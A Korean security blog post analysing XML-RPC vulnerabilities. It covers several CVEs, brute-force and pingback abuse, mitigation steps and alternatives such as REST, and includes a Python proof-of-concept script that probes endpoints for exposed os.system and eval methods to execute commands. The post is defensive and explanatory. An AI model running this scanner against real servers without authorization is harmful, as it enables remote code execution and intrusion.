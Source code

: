 ---
title: "XML-RPC 보안 취약점 분석 및 완화 전략"
date: 2025-03-28T08:39:00+09:00
draft: false
tags: ["XML-RPC", "Security", "RCE", "Exploit"]
categories: ["Cybersecurity"]
-----------------------------
![xmlrpc 배경화면](/images/post/xmlrpc-security.webp)

## 주요 요약

- **XML-RPC 취약점 개요:** 시스템 간 통신을 위한 경량 원격 호출 프로토콜인 XML-RPC는 명령 주입(RCE), XXE, DDoS, 권한 상승 등 다양한 위협에 노출됩니다.
- **대표 사례:** NodeBB (CVE-2023-43187), Apache OFBiz (CVE-2020-9496), PHP XML-RPC (CVE-2005-1921) 등.
- **실제 사용처:** WordPress, Bugzilla, ManageEngine, Apache OFBiz 외에도 일부 레거시 시스템에서 활용 중입니다.
- **완화 전략:** XML-RPC 비활성화, 입력 검증 강화, 인증 체계 강화, 최신 보안 패치 적용, 접근 제어 및 WAF 도입.

## XML-RPC란 무엇인가?

\*\*XML-RPC (XML Remote Procedure Call)\*\*는 XML을 데이터 포맷으로, HTTP를 전송 수단으로 사용하는 원격 프로시저 호출(RPC) 프로토콜입니다. 1998년 Dave Winer와 Microsoft가 공동 제안했으며, 플랫폼 간 통신을 간편화하기 위해 설계되었습니다.

### 기본 원리

- 클라이언트가 XML 형식으로 요청을 보내면 서버가 XML로 응답을 반환합니다.
- 표준 HTTP(S)를 활용해 방화벽을 쉽게 통과할 수 있습니다.

### XML-RPC의 역사

XML-RPC는 초기 웹 서비스에서 널리 쓰였으며, Perl, Java, Python, C, PHP 등 다양한 언어에서 구현되었습니다. 이후 SOAP로 발전했지만, 단순성 때문에 일부 환경에서 지속적으로 활용되었습니다.

### XML-RPC의 현재

RESTful API 및 gRPC 등 최신 기술의 등장으로 사용이 점차 감소하고 있습니다. WordPress도 REST API로 전환 중이며, 레거시 시스템에서만 제한적으로 활용되는 추세입니다.

## 취약점 분석

### 1. XML 주입 및 원격 코드 실행 (RCE)

- **NodeBB (CVE-2023-43187):** XML 입력 미검증으로 RCE 가능
- **Apache OFBiz (CVE-2020-9496):** Java 역직렬화 기반 RCE
- **PHP XML-RPC (CVE-2005-1921):** eval() 오용을 통한 RCE 가능

### 2. XXE (XML External Entity)

- **Apache XML-RPC (CVE-2016-5002):** 외부 엔티티 비활성화 누락으로 로컬 파일 노출 및 SSRF 가능

### 3. DDoS 및 Brute Force 공격

- **system.multicall:** 무차별 대입 공격 자동화
- **pingback.ping:** DDoS 중계 공격 수행

### 4. 인증 우회 및 권한 상승

- **WordPress (CVE-2020-28036):** XML-RPC를 통한 인증 우회

## 실제 공격 사례

- **SonicWall 보고서 (2018):** XML-RPC 공격 10만 건 이상 감지
- **WPbrutebot:** XML-RPC 기반 Brute-force 공격
- **Pingback DDoS:** XML-RPC를 이용한 대규모 중계 공격

## XML-RPC 익스플로잇 예시

아래는 Python 기반으로 동작하는 XML-RPC의 RCE 취약점 탐지 Python 코드와 실행 화면입니다.

![xmlrpc poc code 실행 화면](/images/post/xmlrpc-rce.webp)

```python
import xmlrpc.client
import ssl
import http.client

candidate_methods = [
    "os.system",
    "commands.getoutput",
    "subprocess.check_output",
]

candidate_methods_eval = [
    "__builtin__.eval",
    "builtins.eval",
]

rpc_urls = [
    "https://xxx.com/cgi-bin/rpc.cgi",
]

context = ssl._create_unverified_context()

class UnverifiedTransport(xmlrpc.client.SafeTransport):
    def make_connection(self, host):
        return http.client.HTTPSConnection(host, context=context)

for rpc_url in rpc_urls:
    print(f"[+] Scanning target: {rpc_url}")
    client = xmlrpc.client.ServerProxy(rpc_url, transport=UnverifiedTransport())

    for method in candidate_methods:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            print(f"[>] Trying {method}('id')...")
            result = func('id')
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")

    for method in candidate_methods_eval:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            payload = '__import__("commands").getoutput("id")'
            print(f"[>] Trying {method}('{payload}')...")
            result = func(payload)
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")
```

> ⚠️ 본 스크립트는 반드시 허가된 환경에서만 사용하세요.

## XML-RPC 활용 중인 대표 서비스

| 시스템          | 활용 예시                         |
| ------------ | ----------------------------- |
| WordPress    | 게시, 댓글, pingback (REST로 전환 중) |
| Bugzilla     | 버그 등록 및 수정 API                |
| ManageEngine | 사용자 계정 및 비밀번호 관리              |
| Apache OFBiz | ERP 연동 API                    |

## 보안 강화 방안

- XML-RPC 비활성화 (.htaccess, 웹서버 설정, 플러그인)
- 입력 검증 강화 (정규식 기반)
- XXE 방지 설정 적용
- API 키, OAuth, JWT 인증 적용
- IP 기반 접근 제한
- 웹 애플리케이션 방화벽(WAF) 도입
- 로그 모니터링 및 정기적 취약점 점검 수행

## 현대 대체 기술 비교

| 항목     | XML-RPC | REST   | GraphQL |
| ------ | ------- | ------ | ------- |
| 데이터 형식 | XML     | JSON   | JSON    |
| 구조     | 메서드 기반  | 리소스 기반 | 쿼리 기반   |
| 확장성    | 낮음      | 높음     | 매우 높음   |
| 보안성    | 낮음      | 중간 이상  | 중간 이상   |
| 장점     | 간단 구현   | 캐싱 가능  | 데이터 최소화 |

## 결론 및 제언

- **XML-RPC는 보안 위험이 높아 사용을 자제하세요.**
- **불가피한 경우, 강력한 인증 및 접근 제어를 반드시 적용하세요.**
- **REST 또는 GraphQL로의 전환을 적극 권장합니다.**

## 참조 링크

- [XML-RPC - Wikipedia](https://ko.wikipedia.org/wiki/XML-RPC)
- [CVE-2023-43187 - NodeBB XML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-43187)
- [CVE-2020-9496 - Apache OFBiz RCE](https://nvd.nist.gov/vuln/detail/CVE-2020-9496)
- [CVE-2005-1921 - PHP XMLRPC Code Injection](https://nvd.nist.gov/vuln/detail/CVE-2005-1921)
- [CVE-2016-5002 - Apache XML-RPC XXE](https://nvd.nist.gov/vuln/detail/CVE-2016-5002)
- [WordPress XML-RPC 보안 가이드 (SolidWP)](https://solidwp.com/blog/xmlrpc-php/)
- [SonicWall XML-RPC 공격 분석 보고서](https://www.sonicwall.com/blog/major-attempt-to-exploit-xml-rpc-remote-code-injection-vulnerability-is-observed)


